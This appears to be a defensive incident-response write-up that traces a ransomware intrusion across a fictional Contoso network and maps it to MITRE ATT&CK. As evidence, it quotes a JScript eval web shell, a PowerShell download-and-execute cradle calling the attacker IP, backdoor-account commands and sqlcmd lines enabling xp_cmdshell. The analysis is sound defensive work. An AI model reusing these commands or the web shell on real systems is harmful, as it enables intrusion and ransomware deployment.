<div class="writeup" markdown="1">

#### Description
Contoso, a large technology company, experienced a ransomware attack. The goal of this investigation is to reconstruct the full attack chain to support eradication and prevent the attacker from regaining access.

#### Network Information
- **WEBSERVER**: Public IP: `3.239.28.249`, Private IP: `10.10.3.127`, Domain: `WEBSERVER.contoso.local`
- **Attacker infrastructure**: IP: `13.220.133.23`, Hostname: `ec2-13-220-133-23.compute-1.amazonaws.com`, Workstation: `EC2AMAZ-AKMDCHH`
- **SQL01**: `10.10.2.61`
- **FILESERVER01**: `10.10.2.35`
- **DC01**: `10.10.2.200`
- **IT01**: `10.10.0.56`
- **SALES01**: `10.10.0.178`

#### TL;DR
- The incident began on the public-facing *WEBSERVER*, where a single external IP (`13.220.133.23`) dominated HTTP traffic and later authenticated via RDP.
- The attacker obtained ASP.NET machine keys by reading `web.config`, then abused malicious `__VIEWSTATE` to achieve code execution under IIS (`w3wp.exe`) and drop an ASPX web shell (**`Ab0ut.aspx`**).
- The web shell was then used for recon, for launching a Cobalt Strike PowerShell beacon, and for privilege escalation using **`bp.ps1`** (BadPotato → SYSTEM).
- Lateral movement progressed to *SQL01* via `sqlcmd` and SQL Server’s **`xp_cmdshell`**, followed by credential theft from LSASS, then an interactive Domain Admin session tunneled over the beacon.
- Staging and final execution centered on *FILESERVER01* (PsExec service creation, share staging, WinSCP + outbound SFTP), followed by multi-host ransomware distribution and detonation using PowerShell remoting + WMIC.

#### Investigation
##### WEBSERVER
*WEBSERVER* is the only internet-exposed host in the environment, so the investigation naturally starts there. Network visualization quickly highlights which services are being targeted from outside the private address space (i.e., non-RFC1918 sources), and ports `80` (HTTP) and `3389` (RDP) stand out as the most-hit inbound destinations.
  


Port `80` being heavily targeted is normal for a web server. Port `3389` is more interesting because it typically maps to Remote Desktop Protocol (RDP), which implies the attacker either attempted (or achieved) interactive access. Within the web traffic timeline on port `80`, nearly all requests in a short burst trace back to a single external IP: **`13.220.133.23`**.  



That IP resolves to AWS EC2 infrastructure (a common pattern for disposable attacker staging), and it later shows up again in authentication records, which ties the scanning/bombardment phase to an actual foothold.  



A successful RDP logon from **`13.220.133.23`** occurs at `Nov 12, 2025 @ 01:35:46.148`, using the account **`websvs`**. The workstation name in the authentication event is **`EC2AMAZ-AKMDCHH`**, consistent with EC2 default naming and strongly suggesting the source is an attacker-controlled cloud VM.  



From there, the `websvs` story becomes the first clear pivot: it wasn’t an established admin. The account was created at `01:27:08.750` and added to the local Administrators group at `01:27:29.225`, which explains why the later RDP session had elevated rights.  



That group modification is captured by PowerShell Script Block Logging (Event ID 4104), which records the contents of executed PowerShell script blocks, showing `bp.ps1` being used to run `net localgroup Administrators websvs /add`. The location matters: `C:\ProgramData\` is writable by many principals and is commonly abused as a drop location.  



`bp.ps1` itself is tied to a PowerShell process (PID `7452`) whose command line matches a well-known Cobalt Strike PowerShell “cradle” pattern (download-and-execute) pointing back to `13.220.133.23`. A Cobalt Strike beacon is a post-exploitation implant used for command execution, pivoting, and payload staging; seeing it here explains how later actions get orchestrated across machines.  



Right before `bp.ps1` is written, Sysmon logs (process/file-related events) shows a temporary PowerShell script appearing under `C:\Windows\Temp`, which lines up with the beacon driving PowerShell execution. Script Block logs around the same time reveal how `bp.ps1` was created: the payload was base64-decoded, gzip-decompressed, and written to a hardcoded path: `C:\ProgramData\bp.ps1`. 

  

  



When executed, `bp.ps1` decompresses an additional embedded payload and executes it in-memory. After extracting that payload for analysis, it seems to be BadPotato (a lineage of Windows privilege escalation tools). In simple terms: it abuses **`SeImpersonatePrivilege`** (a Windows right commonly held by certain service contexts) to impersonate a higher-privileged token and reach `NT AUTHORITY\SYSTEM`, the highest local privilege level. The success of that escalation is reflected in subsequent process integrity showing `SYSTEM` context during actions like creating the `websvs` user. 

  



At this stage, the remaining question is: how did the beacon land under the IIS execution chain in the first place?

The `bp.ps1` creation event is in the context of the web service identity **`CONTOSO\websvc`**, and the beacon process tree points directly to IIS components: the beacon executes out of `...\inetsrv\` and traces back to `w3wp.exe`. `w3wp.exe` is the IIS Worker Process responsible for running ASP.NET applications. That parentage strongly indicates web application exploitation as the initial entry point, not a random PowerShell execution from a user session.  



Immediately before the beacon appears under `w3wp.exe`, ASP.NET logs an Event ID `4009` at `Nov 12, 2025 @ 01:13:39.184`. Event 4009 is commonly associated with ASP.NET rejecting a page postback because it cannot validate **`__VIEWSTATE`**.  



`__VIEWSTATE` is an [ASP.NET mechanism](https://www.tessferrandez.com/blog/2007/06/11/a-case-of-invalid-viewstate.html#:~:text=View%20state%2C%20as,like%20the%20above) that stores page state between requests. In many configurations, it is protected using machine keys stored in `web.config`. If an attacker obtains the machine keys, it becomes possible to [craft malicious ViewState](https://www.microsoft.com/en-us/security/blog/2025/02/06/code-injection-attacks-using-publicly-disclosed-asp-net-machine-keys/#:~:text=You%20have%20set,the%20same%20farm) that triggers unsafe deserialization leading to code execution under IIS. In the web logs, a successful request to retrieve `web.config` appears at `Nov 12, 2025 @ 01:06:06.156`, using a `Download.aspx` page. 



With machine keys in hand, the next artifact is the attacker’s crafted POST request containing `__VIEWSTATE` at `Nov 12, 2025 @ 01:13:39.068` (nearly aligned with the 4009 entry). That request executes an encoded PowerShell command that drops an ASPX web shell: **`Ab0ut.aspx`** under `C:\inetpub\wwwroot\`.  




The dropped shell base64-decodes a request parameter and evaluates it.

```JS
<%@ Page Language="Jscript"%>
<% eval(System.Text.Encoding.GetEncoding(936).GetString(System.Convert.FromBase64String(Request.Item["a9c7d2f184eb5306f0b14389d5e7c42f"])),"unsafe"); %>
```

From there, command execution begins at `Nov 12, 2025 @ 01:15:54.950`, and the shell runs a total of **11** commands. The command set maps cleanly to the rest of the chain: initial recon (`whoami`), launch of the beacon from `13.220.133.23:9892/d1`, use of `bp.ps1` to run commands as SYSTEM (including creating the `websvs` user), then use of `sqlcmd` to probe *SQL01* privileges, enable `xp_cmdshell`, and finally install a second beacon on *SQL01* through SQL Server execution.  


```
[Nov 12, 2025 @ 01:15:54.950] cmd.exe "/c tasklist /v  >> C:\\Users\\Public\\user.dat & whoami /all >> C:\\Users\\Public\\user.dat  
[Nov 12, 2025 @ 01:16:20.826] Read C:\Users\Public\user.dat 
[Nov 12, 2025 @ 01:24:15.194] cmd.exe "/c powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://13.220.133.23:9892/d1'));
[Nov 12, 2025 @ 01:25:23.937] C:\programdata\bp.ps1 "whoami" > C:\Users\Public\w.txt
[Nov 12, 2025 @ 01:27:02.230] C:\programdata\bp.ps1 "net user websvs qwer_09876 /add"
[Nov 12, 2025 @ 01:27:28.870] C:\programdata\bp.ps1 "net localgroup Administrators websvs /add" 
[Nov 12, 2025 @ 01:40:37.436] C:\ProgramData\sqlcmd -S SQL01.contoso.local -E -Q "SELECT IS_SRVROLEMEMBER('sysadmin') AS IsSysadmin" >> C:\Users\Public\db.dat
[Nov 12, 2025 @ 01:41:21.568] C:\ProgramData\sqlcmd -S SQL01.contoso.local -E -Q "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
[Nov 12, 2025 @ 01:52:18.609] C:\programdata\sqlcmd.exe -S SQL01.contoso.local -E -Q "EXEC xp_cmdshell 'powershell -enc ...';"
```

A quick note on the SQL pieces:
- `sqlcmd` is a Microsoft command-line client that can execute SQL statements remotely.
- `xp_cmdshell` is a SQL Server extended stored procedure that runs OS commands on the SQL Server host under the SQL Server service context. In incident response, seeing `sp_configure ... xp_cmdshell` is a classic sign of SQL-to-OS lateral movement.

`sqlcmd.exe` itself appears on disk on WEBSERVER at `01:38:41.805` under `explorer.exe` in the `websvs` session, consistent with an interactive drop (copy/paste is a common pattern when RDP is in play). The attacker then reviewed output locally (Notepad++ shows up in the sequence), enabled `xp_cmdshell`, and later removed staged files during the session.  

  

  



At the end of the *WEBSERVER* storyline, a suspicious `vssadmin.exe` runs from `C:\Windows\Temp\` at `02:58:27.214` under the domain user `CONTOSO\aosama`. In real environments, `vssadmin.exe` is a legitimate Windows tool used to manage Volume Shadow Copies; ransomware often abuses (or impersonates) this name because it is familiar and because deleting shadow copies is a common pre-encryption step. The presence of `instructions_read_me.txt` in the same context supports that this binary is ransomware-related rather than the legitimate Windows utility.  



A corresponding logon to *WEBSERVER* from *FILESERVER01* appears within the same window (`02:57:33.462`) for `CONTOSO\aosama`, which becomes the trail that leads into the final staging host.



##### SQL01
*SQL01* is reached via the `xp_cmdshell` pivot. A new beacon process appears at `Nov 12, 2025 @ 01:52:19.137` (PID `4336`) and communicates directly with the same external IP `13.220.133.23`, tying it back to the initial infrastructure.  



After about nine minutes, *SQL01* sees the same privilege escalation pattern: `bp.ps1` is dropped at `02:01:15.993`, followed shortly by a second beacon that runs under `SYSTEM` (PID `6376`) at `02:04:12.141`. This mirrors the *WEBSERVER* playbook: establish beacon → stage `bp.ps1` → escalate → continue operations with higher privileges.  



Next comes credential access behavior. A `rundll32.exe` process is spawned (PID `8752`) and then accesses `LSASS` at `02:05:34.289` using an access mask `0x1010` (`PROCESS_VM_READ` + `PROCESS_QUERY_LIMITED_INFORMATION`). LSASS (Local Security Authority Subsystem Service) hosts credential material in memory; reads against it are a common precursor to credential dumping. Attack frameworks often use a sacrificial process (like `rundll32.exe`) for risky actions so the primary beacon remains stable.  



There is also an attempt to set up an SSH reverse proxy using `pinggy.io` at `02:08:45.046`, likely intended to tunnel RDP over an outbound-friendly channel. DNS resolution for `a.pinggy.io` is observed, but there is no corresponding connection to the resolved IP in the logs, suggesting the tunnel may have failed or been abandoned.  

  



The strongest pivot on *SQL01* is authentication. At `02:23:42.374`, `CONTOSO\ali` (Domain Admin) logs in, and the workstation name matches the attacker’s EC2 host (`EC2AMAZ-AKMDCHH`). Together with an RDP connection at `02:23:48.127`, this strongly suggests the interactive session was tunneled through a beacon channel rather than coming from inside the corporate network.  



From that point, post-compromise discovery and lateral movement tools appear:
- **Find-LocalAdminAccess.ps1** (PowerSploit) is downloaded and executed against the file server and domain controller, this script enumerates where the current user has local admin rights, which is valuable for quickly identifying reachable targets.
  


 - **PsExec64.exe** is dropped under `C:\Users\ali\Downloads` and used to create a remote service named **`RunHealthCheck`** on *FILESERVER01*.





- **mimikatz.exe** is staged and used to launch `mstsc` (the Microsoft RDP client). In practice, Mimikatz is often used for credential theft and in some cases for credential material handling during lateral movement workflows e.g., creating new processes with stolen credentials.





##### FILESERVER01
*FILESERVER01* has two distinct arrival vectors visible in logs: the PsExec-created service (`RunHealthCheck`) and the RDP activity coming from *SQL01*.

Starting with the service path: `RunHealthCheck` executes at `02:33:39.428` (PID `10396`), spawns `cmd.exe` (PID `9848`), performs basic reconnaissance, and creates a share at `C:\Shares\Public` at `02:34:26.134`. Creating new shares is a common staging trick: it provides a convenient, reachable drop zone for tools and payloads. 

  



On the RDP side, additional tooling is staged under the shares: `mimikatz` appears in `C:\Shares\IT\Tools` at `02:39:39.488`, and an authentication event shows `CONTOSO\aosama` logging in at `02:42:04.749` from *SQL01*. Surrounding *SQL01* activity ties this logon to `mstsc` being launched in the `aosama` context shortly beforehand.  

  





Tooling that suggests data movement and end-stage preparation follows:
- `WinSCP.exe` is dropped at `02:44:46.863`.
- the ransomware binary named `vssadmin.exe` is dropped at `02:55:50.857`.  
    
Roughly six minutes after WinSCP is staged, an outbound connection is observed from *FILESERVER01* to `13.220.133.23` on port `22` (SFTP) at `02:51:29.455`. That combination (WinSCP + SFTP to attacker infra) is a classic exfiltration signal: it does not prove what data went out, but it suggests file transfer occurred or was attempted.  



Finally, ransomware distribution and detonation occurs:
- At `02:56:32.578`, PowerShell Remoting is used to copy `vssadmin.exe` out to multiple hosts (`SQL01`, `WEBSERVER`, `DC01`, `IT01`, `SALES01`). (PowerShell remoting typically rides over WinRM; in practice it provides remote execution and file staging across Windows hosts.)
- A minute later, `WMIC` is used to execute/detonate across targets, and the workflow deletes Volume Shadow Copies first, which are Windows snapshots often used for file recovery, and ransomware operators commonly remove them to reduce recovery options.
- The ransomware is then executed manually on *FILESERVER01*.

  

  


Although `IT01` and `SALES01` are targeted in the deployment scripts, there are no traces in the available logs that `vssadmin.exe` was actually written or executed on those two machines.

#### MITRE ATT&CK

| Tactic                             | Technique (ID)                                                           | Evidence                                                                                                                                                                                              |
| ---------------------------------- | ------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Initial Access                     | **Exploit Public-Facing Application (T1190)**                            | Web exploitation chain: attacker retrieved `web.config` (machine keys) via `Download.aspx`, then used crafted `__VIEWSTATE` to execute an encoded PowerShell payload and drop `Ab0ut.aspx` web shell. |
| Persistence                        | **Server Software Component: Web Shell (T1505.003)**                     | `Ab0ut.aspx` dropped under `C:\inetpub\wwwroot\` and used to run attacker-supplied commands.                                                                                                          |
| Execution                          | **Command and Scripting Interpreter: JavaScript (T1059.007)**            | Web shell is JScript and executes decoded input via `eval(...)` on a request parameter.                                                                                                               |
| Execution                          | **Command and Scripting Interpreter: Windows Command Shell (T1059.003)** | Web shell runs `cmd.exe /c` for recon and file output (`tasklist`, `whoami`).                                                                                                                         |
| Execution                          | **Command and Scripting Interpreter: PowerShell (T1059.001)**            | Encoded PowerShell used from the ViewState exploit and later via `DownloadString('http://13.220.133.23:9892/d1')` to launch the first beacon.                                                         |
| Defense Evasion / Execution        | **Obfuscated/Compressed Files and Information (T1027)**                  | Payload staging uses base64 + gzip decompression to reconstruct `bp.ps1` and an in-memory payload.                                                                                                    |
| Command & Control                  | **Application Layer Protocol: Web Protocols (T1071.001)**                | Beacon/bootstrap pulled over HTTP from attacker infra (`http://13.220.133.23:9892/d1`).                                                                                                               |
| Resource Development / Delivery    | **Ingress Tool Transfer (T1105)**                                        | Multiple tools/payloads introduced: Cobalt Strike bootstrap over HTTP, PowerSploit `Find-LocalAdminAccess.ps1`, PsExec64, WinSCP, and ransomware staged.                                              |
| Privilege Escalation               | **Access Token Manipulation: Token Impersonation/Theft (T1134.001)**     | `bp.ps1` is tied to BadPotato-style privesc abusing `SeImpersonatePrivilege` to reach `NT AUTHORITY\SYSTEM`.                                                                                          |
| Privilege Escalation               | **Exploitation for Privilege Escalation (T1068)**                        | The investigation identifies the dropped payload as BadPotato (a privesc component) and validates SYSTEM integrity for follow-on actions.                                                             |
| Persistence                        | **Create Account: Local Account (T1136.001)**                            | Local user `websvs` created via `net user websvs ... /add`.                                                                                                                                           |
| Privilege Escalation / Persistence | **Account Manipulation (T1098)**                                         | `websvs` added to local Administrators (`net localgroup Administrators websvs /add`).                                                                                                                 |
| Lateral Movement                   | **Remote Services: Remote Desktop Protocol (T1021.001)**                 | Attacker IP logs into WEBSERVER via RDP using `websvs`; later RDP usage appears again orchestrated from SQL01 context.                                                                                |
| Defense Evasion / Execution        | **Signed Binary Proxy Execution: Rundll32 (T1218.011)**                  | Cobalt Strike spawns `rundll32.exe` as a sacrificial process before sensitive activity (LSASS access).                                                                                                |
| Credential Access                  | **OS Credential Dumping: LSASS Memory (T1003.001)**                      | `rundll32.exe` accesses `LSASS.exe` with `GrantedAccess 0x1010` (`PROCESS_VM_READ` + `PROCESS_QUERY_LIMITED_INFORMATION`), consistent with credential dumping workflows.                              |
| Credential Access                  | **Credentials from Password Stores / Tooling (context: Mimikatz)**       | `mimikatz.exe` is dropped and used to launch `mstsc` while passing credential material.                                                                                                               |
| Lateral Movement / Execution       | **System Services: Service Execution (T1569.002)**                       | PsExec used to execute remotely by creating a service `RunHealthCheck` on FILESERVER01.                                                                                                               |
| Lateral Movement                   | **Windows Remote Management (T1021.006)**                                | PowerShell Remoting used to copy the ransomware binary to multiple hosts.                                                                                                                             |
| Execution / Lateral Movement       | **Windows Management Instrumentation (T1047)**                           | `WMIC` used to detonate ransomware across targeted machines.                                                                                                                                          |
| Collection / Exfiltration          | **Exfiltration Over Alternative Protocol (T1048)**                       | WinSCP staged, then outbound connection from FILESERVER01 to attacker IP on port 22 (SFTP), suggesting data exfiltration.                                                                             |
| Defense Evasion                    | **Masquerading: Match Legitimate Name or Location (T1036.005)**          | Ransomware was named `vssadmin.exe` (a legitimate Windows utility name) and staged/deployed under that name.                                                                                          |
| Impact                             | **Inhibit System Recovery (T1490)**                                      | Ransomware detonation flow deletes Volume Shadow Copies prior to encryption.                                                                                                                          |
| Impact                             | **Data Encrypted for Impact (T1486)**                                    | Incident characterized as ransomware; payload staged as `vssadmin.exe` and detonated broadly via PS Remoting + WMIC with ransom-note behavior described.                                              |

</div>
